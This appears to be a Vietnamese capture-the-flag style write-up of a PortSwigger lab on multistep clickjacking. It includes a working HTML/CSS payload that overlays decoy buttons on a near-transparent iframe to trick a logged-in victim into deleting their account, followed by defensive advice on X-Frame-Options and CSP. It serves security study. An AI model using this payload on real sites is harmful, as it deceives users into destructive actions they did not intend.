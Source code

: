 # Write-ups: Multistep clickjacking

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi chức năng xóa tài khoản tại `/my-account` yêu cầu hai bước và được bảo vệ bởi CSRF token, nhưng thiếu biện pháp chống nhúng iframe như header `X-Frame-Options` hoặc `Content-Security-Pol`icy (CSP). Kẻ tấn công có thể nhúng trang `/my-account` vào `iframe` trong Exploit Server, sử dụng hai div giả mạo ("Click me first" và "Click me next") đặt chồng lên các nút "Delete account" và "Yes" để lừa người dùng thực hiện cả hai bước, xóa tài khoản. Payload được tối ưu vị trí để nhấp đúng các nút mục tiêu, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng clickjacking bằng cách nhúng trang `/my-account` vào iframe, đặt hai div giả mạo lên các nút "Delete account" và "Yes", lừa người dùng nhấp để hoàn thành quy trình xóa tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Chức năng xóa tài khoản yêu cầu hai bước: nhấp nút "Delete account" (gửi yêu cầu POST với CSRF token) và nhấp nút "Yes" trên trang xác nhận.
    - Response header không có `X-Frame-Options` hoặc `Content-Security-Policy` (CSP), cho phép nhúng iframe.

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang /my-account
        `<iframe src="https://0acf002403f30b4981de0cb500e8001b.web-security-academy.net/my-account"></iframe>`
    - Store và view exploit:
        - Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
            ![click](./images/1_iframe.png)

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Delete account" và nút "Yes":
    ```html
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 0.000001;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:513px;
            left:55px;
            z-index: 1;
        }
    .secondClick {
            top:313px;
            left:200px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0acf002403f30b4981de0cb500e8001b.web-security-academy.net/my-account"></iframe>
    ```
    ![body](./images/3_body.png)
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` gần trong suốt, hai div "Click me first" và "Click me next" đặt chồng lên nút "Delete account" và "Yes" để lừa người dùng nhấp, thực hiện cả hai bước xóa tài khoản.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân (đã đăng nhập) truy cập trang Exploit Server, nhấp vào "Click me first" và "Click me next", yêu cầu POST xóa tài khoản và xác nhận được gửi kèm CSRF token từ phiên của họ, xóa tài khoản thành công và hoành thành lab


### Bài học rút ra
- Hiểu cách khai thác lỗ hổng clickjacking trong quy trình đa bước bằng cách nhúng trang `/my-account` vào iframe, sử dụng hai div giả mạo để lừa người dùng nhấp vào nút "Delete account" và "Yes", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn chặn nhúng `iframe`, bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking, kể cả với các hành động đa bước.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking trong quy trình xóa tài khoản đa bước với CSRF token nhưng thiếu bảo vệ chống nhúng iframe, nhấn mạnh tầm quan trọng của việc sử dụng `X-Frame-Options` hoặc CSP để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*